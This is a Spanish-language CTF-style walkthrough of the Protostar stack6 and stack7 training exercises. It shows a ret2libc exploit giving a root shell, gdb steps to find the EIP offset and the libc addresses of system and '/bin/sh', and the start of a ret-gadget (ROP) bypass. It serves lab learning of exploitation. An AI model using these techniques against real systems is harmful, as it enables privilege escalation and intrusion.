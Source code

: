 ```console
[user@protostar]-[/opt/protostar/bin]:$ (python /tmp/exploit.py;cat) | ./stack6
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA���AAAAAAAAAAAA����`췿c��
whoami
root
```

---------------------------------------------------------------------------

# Ret2libc y ROP 

> [stack7](https://exploit.education/protostar/stack-seven/)

Este ejercicio es identico al anterior, solo cambia ligeramente la parte de no poder retornar a la pila

El input empieza en 0xbffff65c (que justo es el valor del primer elemento de la pila 0xbffff640:0xbffff65c).
Una manera rapida de ver donde esta el eip es desbordando y con el comando info frame

```console
[user@protostar]-[/opt/protostar/bin]:$ python -c "print('A'* 76 + 'BBBBCCCCDDDDEEEEFFFFGGGG' )" > /tmp/pattern
[user@protostar]-[/opt/protostar/bin]:$ gdb ./stack7
(gdb) run < /tmp/pattern
Program received signal SIGSEGV, Segmentation fault.
0x43434343 in ?? () -> Las "C" ->  offset = 80 + eip
```
Si probamos a ejecutar un ret2libc? 

```console
(gdb) p &system
0xb7ecffb0 <__libc_system>
(gdb) p &exit
0xb7ec60c0 <*__GI_exit>
(gdb) info proc map
0xb7e97000 0xb7fd5000   0x13e000          0         /lib/libc-2.11.2.so
[user@protostar]-[/opt/protostar/bin]:$  strings -atx /lib/libc-2.11.2.so | grep "bin/sh"
 11f3bf /bin/sh
(gdb) p/x 0xb7e97000 + 0x11f3bf
$6 = 0xb7fb63bf
(gdb) x/s 0xb7fb63bf
0xb7fb63bf:      "/bin/sh"
```
Las direcciones son las mismas que antes y el offset igual asi que usamos el exploit ret2libc de ./stack6
```
```console
[user@protostar]-[/opt/protostar/bin]:$ (python /tmp/exploit.py;cat) | ./stack7
input path please: bzzzt (0xb7ecffb0)
```
Resulta ser que la direccion de system empieza por 0xb algo, asi que nos la chapa. Que hacer? tirar del recurso del RET para retrasar el eip y burlar la medida.
```console
(gdb) disas getpath
0x08048544 <getpath+128>:       ret 
```
 > ROP PROGRAMMING -> El rop programming significa que nos aprovechamos de instrucciones de ensamblador del propio código para hacer determinadas cosas en el programa.
